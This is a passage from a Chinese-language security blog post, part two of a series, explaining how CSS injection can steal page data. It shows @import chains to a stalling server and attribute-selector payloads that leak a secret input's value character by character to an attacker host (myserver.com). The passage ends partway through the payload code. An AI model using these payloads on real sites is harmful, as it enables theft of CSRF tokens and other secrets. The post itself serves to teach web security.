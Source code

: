 ```yaml
---
title: 用 CSS 來偷資料 - CSS injection（下）
catalog: true
date: 2022-09-29 21:41:10
tags: [Security]
categories: [Security]
---
```


<img src="/img/css-injection-2/cover.png" style="display:none" loading="lazy">

在[上集](/2022/09/29/css-injection-1)裡面，我們知道了基本的 CSS 偷資料原理，並且以 HackMD 作為實際案例示範，成功偷到了 CSRF token，而這篇則是要深入去看 CSS injection 的一些細節，解決以下問題：

1. HackMD 因為可以即時同步內容，所以不需要重新整理就可以載入新的 style，那其他網站呢？該怎麼偷到第二個以後的字元？
2. 一次只能偷一個字元的話，是不是要偷很久呢？這在實際上可行嗎？
3. 有沒有辦法偷到屬性以外的東西？例如說頁面上的文字內容，或甚至是 JavaScript 的程式碼？
4. 針對這個攻擊手法的防禦方式有哪些？



## 偷到所有字元

在上集裡面我們有提到，我們想偷的資料有可能只要重新整理以後就會改變（如 CSRF token），所以我們必須在不重新整理的狀況之下載入新的 style。

上一篇裡面之所以做得到，是因為 HackMD 本身就是一個標榜即時更新的文件，但如果是一般的網頁呢？在不能用 JavaScript 的情況下，該如何不斷動態載入新的 style？

有關於這個問題，在 [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf) 這份簡報裡面給出了解答：[@import](https://developer.mozilla.org/en-US/docs/Web/CSS/@import)。

在 CSS 裡面，你可以用 `@import` 去把外部的其他 style 引入進來，就像 JavaScript 的 `import` 那樣。

我們可以利用這個功能做出引入 style 的迴圈，如下面的程式碼：

``` css
@import url(https://myserver.com/start?len=8)
```

接著，在 server 回傳如下的 style：

``` css
@import url(https://myserver.com/payload?len=1)
@import url(https://myserver.com/payload?len=2)
@import url(https://myserver.com/payload?len=3)
@import url(https://myserver.com/payload?len=4)
@import url(https://myserver.com/payload?len=5)
@import url(https://myserver.com/payload?len=6)
@import url(https://myserver.com/payload?len=7)
@import url(https://myserver.com/payload?len=8)
```

重點來了，這邊雖然一次引入了 8 個，但是「後面 7 個 request，server 都會先 hang 住，不會給 response」，只有第一個網址 `https://myserver.com/payload?len=1` 會回傳 response，內容為之前提過的偷資料 payload：

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://b.myserver.com/leak?q=c)
}

//....

```